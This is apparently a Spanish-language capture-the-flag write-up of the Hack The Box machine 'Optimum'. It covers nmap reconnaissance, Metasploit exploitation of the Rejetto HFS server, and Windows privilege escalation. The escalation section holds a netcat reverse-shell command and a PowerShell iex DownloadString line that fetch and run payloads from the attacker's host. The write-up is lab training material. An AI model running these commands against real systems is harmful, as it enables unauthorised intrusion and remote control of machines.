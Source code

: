 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Optimum            |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.8         |


## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Optimum/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.8
```

![nmap 1](/assets/images/Optimum/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.8 -oG allPorts
```

![nmap2](/assets/images/Optimum/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p80 10.10.10.8 -oN targeted
```

![nmap3](/assets/images/Optimum/nmap3.png)

Buscamos un exploit con:

```s
searchsploit hfs http file server

#Lectura del exploit
searchsploit -x windows/remote/31056.py
```

Ahora que sabemos que si existe exploit para este servicio, usaremos el frame de metasploit para entrar a esta maquina

```s
msfconsole

search rejetto

use exploit/windows/http/rejetto_hfs_exec

show options

set RHOST 10.10.10.8

set LHOST 10.10.14.29

set RPORT 80

#Se abrio una session y para usarla le damos

sessions 1

#Tomamos una captura de pantalla
screenshot
```

Con el ultimo comando tomamos una captura, y podemos ver que ahi se encuentra la flag, abrimos una shell y procedemos a la lectura de la flag.

Para la escalada de privilegios, usaremos netcat. 

Abrimos un http server con python

```s
sudo python3 -m http.server 80
```

Nos lo descargaremos desde nuestra maquina con un:

```s
powershell wget http://10.10.14.29/nc64.exe -outfile nc.exe
#para ejecutarlo primero nos ponemos en escucha del otro lado y damos un:
nc.exe 10.10.14.29 443 -e cmd
```

Para buscar informacion, antes de usar WinPeas podemos aplicar:

```s
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"
```

Para enumerar las vulnerabilidades y automatizar el escalamiento de privilegios ahora si usamos winPEAS:

 ```s
powershell invoke-WebRequest -UseBasicParsing 10.10.14.29/winPEASx64.exe -OutFile winPEASx64.exe
```

Agregamos esta linea al final de este<a href="https://github.com/samratashok/nishang"> script</a>:

```s
powershell Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.29/rev.ps1')"
```

powershell invoke-WebRequest -UseBasicParsing 10.10.14.29/rev.ps1 -OutFile rev.ps1

![Root](/assets/images/Optimum/root.png)

![Powned](/assets/images/Optimum/powned.png)